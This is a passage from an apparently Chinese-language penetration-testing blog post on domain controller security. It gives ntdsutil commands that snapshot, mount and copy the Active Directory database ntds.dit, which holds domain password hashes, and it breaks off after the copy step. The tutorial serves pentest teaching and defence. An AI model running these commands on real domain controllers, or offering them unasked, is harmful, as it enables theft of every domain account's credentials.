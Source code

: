 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:   内网渗透之域控制器安全    # 标题 
subtitle:  内网渗透  #副标题
date:  2021-02-24  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - 内网渗透


---
```


# 域控制器安全

通常情况下，即使拥有管理员权限，也无法读取域控制器中的 `C:\Windows\NTDS\ntds.dit` 文件（活动目录始终访问这个文件，所以文件被禁止读取），使用 windwos 本地卷影拷贝服务，可获取其副本。

## 一、使用卷影服务提取 ntds.dit

存储位置： `%SystemRoot%\ntds\ntds.dit` ,

包含但不限于 用户名、散列值、组、GPU、OU等与活动目录相关的信息。

#### 1.1 通过ntdsutil.exe 提取 ntds.dir

支持操作系统： win2003 , win2008, win2012.

![image-20210224132347769](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224132347769.png)

```cmd
# 创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
```

![image-20210224133121207](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224133121207.png)

创建了如图 GUID  的快照。

```cmd
# 加载快照
ntdsutil snapshot "mount {GUID}" quit quit
```

![image-20210224133655671](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224133655671.png)

已经将快照加载到了 `c:\$SNAP_202102241330_VOLUMEC$\`  目录下。

```cmd
# 将所需文件 copy 出来
copy c:\$SNAP_202102241330_VOLUMEC$\windwos\ntds\ntds.dit .\ntds.dit
```
